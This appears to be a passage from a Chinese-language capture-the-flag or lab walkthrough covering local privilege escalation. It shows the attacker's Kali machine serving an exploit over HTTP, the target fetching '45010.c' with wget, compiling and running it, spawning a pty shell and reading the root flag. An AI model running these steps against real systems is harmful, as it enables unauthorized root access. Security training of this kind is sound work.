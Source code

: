 

kali操作：

```
python -m http.server 80
```

靶机操作：

```
cd /tmp && wget http://192.168.125.133/45010.c
```



编译：

```
gcc 45010.c -o 45010
```

运行：

```
./45010
```



提权成功：

![image-20230511164152554](./assets/image-20230511164152554.png)



使用python 伪终端来获得一个交互式shell 

`python -c 'import pty;pty.spawn("/bin/bash")'`

```
root@ubuntu:/root# cat root.txt
cat root.txt
b2b17036da1de94cfb024540a8e7075a
root@ubuntu:/root#
```



